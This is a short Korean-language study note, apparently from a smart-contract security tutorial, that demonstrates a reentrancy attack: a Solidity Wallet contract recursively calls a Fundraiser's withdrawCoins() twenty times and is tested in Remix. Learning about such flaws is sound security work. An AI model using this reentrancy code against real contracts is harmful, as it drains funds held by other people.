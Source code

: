 취약점을 파악했으니, 이를 악용해보자.

## 구현 사항

1. `Wallet`의 `.payout()`이 `Fundraiser`의 `.withdrawalCoins()`를 호출한다
  - 재귀적으로 작성
2. 인출이 일어나는 횟수를 제한한다
  - 반복문으로 작성
  - 안 그러면 Gas Limit에 걸려서 다 롤백된다

```solidity
contract Wallet {
  Fundraiser fundraiser;
  uint recursion = 20;

  function payout() payable {
    if (recursion > 0) {
      recursion--;
      fundraiser.withdrawCoins();
    }
  }
}
```

- 어떤 식의 일들이 벌어지는지, Remix를 통하여 확인해보자
- `Wallet` 컨트랙트 배포시, `Fundraiser` 컨트랙트 인스턴스의 주소가 필요
- 테스트를 위하여 우선 지갑과 펀드레이저에 일정 토큰을 add한다.
  - `(fallback)` 함수 이용 (??????)
  - 이제, `contribute`와 `withdrawalCoins`를 사용할 수 있다
- `payout`을 실행해보면, 본래 의도보다 20의 송금이 발생한 것을 확인할 수 있다.
  - 한번 `payout`이 완료되고 나면, `balance`가 0으로 설정되므로 더 이상 `payout`을 실행할 수 없게 됨에 유의
